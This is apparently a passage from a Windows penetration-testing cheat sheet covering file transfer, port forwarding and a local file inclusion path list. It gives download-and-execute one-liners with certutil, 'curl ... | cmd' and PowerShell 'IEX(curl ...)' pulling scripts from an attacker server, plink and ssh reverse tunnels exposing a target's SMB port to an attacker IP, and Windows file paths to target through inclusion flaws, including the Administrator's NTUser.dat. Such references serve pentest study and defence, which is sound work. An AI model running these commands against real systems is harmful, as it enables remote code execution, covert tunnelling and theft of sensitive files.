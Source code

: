 **CertUtil**

```text
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

**Certutil can also be used for base64 encoding/decoding.**

```text
certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
```

Starting with Windows 10 1803 \(April 2018 Update\) the `curl` command has been implemented which gives another way to transfer files and even execute them in memory. _Piping directly into cmd will run most things but it seems like if you have anything other than regular commands in your script, ie loops, if statements etc, it doesn’t run them correctly._

```text
curl http://server/file -o file
curl http://server/file.bat | cmd
```

**And with PowerShell**

```text
IEX(curl http://server/script.ps1);Invoke-Blah
```

## Port Forwarding

This is useful for exposing inside services that aren’t available from outside the machine, normally due to firewall settings.

Upload `plink.exe` to target.

Start SSH on your attacking machine.

**For example to expose SMB, on the target run:**

```text
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

As of Windows 10 1803 \(April 2018 Update\), ssh client is now included and turned on by default! So you’re able to use ssh to do port forwarding right out of the box now.

```text
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

## Local File Inclusion List

This is not an exhaustive list, installation directories will vary, I’ve only listed common ones.

```text
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
```